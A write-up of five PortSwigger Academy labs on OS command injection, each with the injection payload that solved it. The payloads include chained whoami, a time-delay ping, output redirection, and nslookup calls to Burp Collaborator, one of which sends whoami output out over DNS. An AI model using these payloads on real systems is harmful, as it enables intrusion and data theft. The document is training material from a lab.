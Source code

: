01 OS command injection, simple case
====================================

This lab contains an OS command injection vulnerability in the product stock
checker.

The application executes a shell command containing user-supplied product and
store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the whoami command to determine the name of the
current user.

References:

-   https://portswigger.net/web-security/os-command-injection

![img](media/56feb72e170217def5df968eb9c2a1ff.png)

![img](media/412d734f58805c1c40737c534a36f3a7.png)

![img](media/3b5bf186b670bc4d3008a87a8ca52c61.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...

productId=1&storeId=1;whoami
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/c9389bd8172981e3c91406a62d3d17e0.png)

02 Blind OS command injection with time delays
==============================================

This lab contains a blind OS command injection vulnerability in the feedback
function.

The application executes a shell command containing the user-supplied details.
The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause
a 10 second delay.

References:

-   https://portswigger.net/web-security/os-command-injection

![img](media/e40a5e83ec57c6c57123b7534cee4750.png)

There is a function to submit feedback:

![img](media/527a344abf8fe28b6040e9daebc5db9a.png)

The vulnerability affects the fields “Name”, “Email” and “Message”:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
"; ping -c 127.0.0.1; echo "a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/34847cffb94e7f754d1d945a657a5439.png)

03 Blind OS command injection with output redirection
=====================================================

This lab contains a blind OS command injection vulnerability in the feedback
function.

The application executes a shell command containing the user-supplied details.
The output from the command is not returned in the response. However, you can
use output redirection to capture the output from the command. There is a
writable folder at /var/www/images/.

The application serves the images for the product catalog from this location.
You can redirect the output from the injected command to a file in this folder,
and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output.

Reference: https://portswigger.net/web-security/os-command-injection

![img](media/727b4d71ce1e7a1d8ea1ad5936456bce.png)

Generated link:
https://0a19003c045b2b62809bd0800086001d.web-security-academy.net/

There is a functionality for submitting feedback:

![img](media/894f2aa6d675f02261598ab2e0e97c06.png)

And the images are retrieved with a GET request:

![img](media/8146d3bbf7490b25e710b07b5e52f7b6.png)

We need to execute:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
whoami > /var/www/images/whoami.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

I sent the POST request to intruder and set 3 fields to attack in Sniper mode:

![img](media/3edafa22201fa2ff406aa55c1d123f69.png)

Then I added 3 payloads:

![img](media/3bce65e49ce68a998cef9433b0a464c7.png)

When we add payloads to the field subject the website returns an error:

![img](media/a0706edb74f3c049c7728660c2a35173.png)

We get the username “peter-5fYwD0” after a GET to "/image?filename=whoami.txt",
so the intruder attack worked:

![img](media/31c8b4be45118f80470ec66a1408c242.png)

![img](media/0b93e2ce9815936c4b0a3b34c8f9c161.png)

04 Blind OS command injection with out-of-band interaction
==========================================================

This lab contains a blind OS command injection vulnerability in the feedback
function.

The application executes a shell command containing the user-supplied details.
The command is executed asynchronously and has no effect on the application's
response. It is not possible to redirect output into a location that you can
access. However, you can trigger out-of-band interactions with an external
domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue
a DNS lookup to Burp Collaborator.

Note: To prevent the Academy platform being used to attack third parties, our
firewall blocks interactions between the labs and arbitrary external systems. To
solve the lab, you must use Burp Collaborator's default public server.

References:

-   https://portswigger.net/web-security/os-command-injection

-   https://book.hacktricks.xyz/pentesting-web/command-injection

![img](media/e98b8efa7ff9b6288c7b1cdf128c1ac3.png)

There is a function to submit feedback:

![img](media/8b1726794797b85463534a8910c6fba3.png)

In this case the command injection is achieved with the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
`nslookup 7s0qd0oqa0r71b9pewc0nu7a41asynmc.oastify.com`
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/7f26874adeb94964d521d848915ece48.png)

![img](media/d5eb36f1b89c85979f4fb0fdd5108464.png)

05 Blind OS command injection with out-of-band data exfiltration
================================================================

This lab contains a blind OS command injection vulnerability in the feedback
function.

The application executes a shell command containing the user-supplied details.
The command is executed asynchronously and has no effect on the application's
response. It is not possible to redirect output into a location that you can
access. However, you can trigger out-of-band interactions with an external
domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS
query to Burp Collaborator. You will need to enter the name of the current user
to complete the lab.

Note: To prevent the Academy platform being used to attack third parties, our
firewall blocks interactions between the labs and arbitrary external systems. To
solve the lab, you must use Burp Collaborator's default public server.

References:

-   https://portswigger.net/web-security/os-command-injection

![img](media/0b03465e894cb1b88f6bebbbde84e7ff.png)

There is a function to submit feedback. It allows out-of-band interaction with
the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$(nslookup juh2fcq2cctj3nb1g8ecp69m6dc400op.oastify.com)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/fa53eaa5f8cc5ba9c4b65a95bb48c632.png)

We get the username ("peter-0B6BNY") using the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$(nslookup `whoami`.m1o5mfx5jf0maqi4nblfw9gpdgj774vt.oastify.com)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/6634dc24d0c1e2140310537c6bfa6d6d.png)

![img](media/728f88ede2314e94cf721390d6f68a64.png)
